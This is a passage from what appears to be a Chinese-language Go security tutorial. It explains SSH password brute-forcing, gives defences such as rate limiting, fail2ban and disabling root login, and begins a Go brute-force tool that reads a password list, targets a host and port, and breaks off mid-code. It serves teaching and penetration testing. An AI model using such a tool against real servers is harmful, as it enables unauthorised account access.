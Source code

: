 ```go
      numThreads -= 1 
   } 
} 
```

# 强制 SSH

Secure Shell 或 SSH 支持几种身份验证机制。如果服务器只支持公钥身份验证，那么暴力尝试几乎是徒劳的。这个例子将只看 SSH 的密码认证。

要防止此类攻击，请实施速率限制或 fail2ban 等工具，当检测到大量失败的登录尝试时，该工具会在短时间内锁定帐户。同时禁用根远程登录。有些人喜欢将 SSH 放在非标准端口上，但最终将其放在大量非限制端口上，如`2222`，这不是一个好主意。如果您使用大量非特权端口，如`2222`，另一个低特权用户可能会劫持该端口，并在该端口发生故障时开始在其位置运行自己的服务。如果要更改默认设置，请将 SSH 守护程序放在低于`1024`的端口上。

此攻击在日志中明显有噪音，易于检测，并被 fail2ban 等东西阻止。如果您正在进行渗透测试，检查是否存在速率限制或帐户锁定可以作为一种快速方法。如果未配置速率限制或临时帐户锁定，暴力攻击和 DDoS 是潜在风险。

运行此程序需要来自[golang.org](http://www.golang.org)的 SSH 包。您可以使用以下命令获取它：

```go
go get golang.org/x/crypto/ssh
```

安装所需的`ssh`包后，可以运行以下示例：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "os" 

   "golang.org/x/crypto/ssh" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force SSH Password 

Passwords should be separated by newlines. 
URL should include hostname or ip with port number separated by colon 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url:port> 

Example: 
  ` + os.Args[0] + ` root passwords.txt example.com:22 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testSSHAuth(url, username, password string, doneChannel chan bool) { 
   sshConfig := &ssh.ClientConfig{ 
      User: username, 
      Auth: []ssh.AuthMethod{ 
         ssh.Password(password), 
```
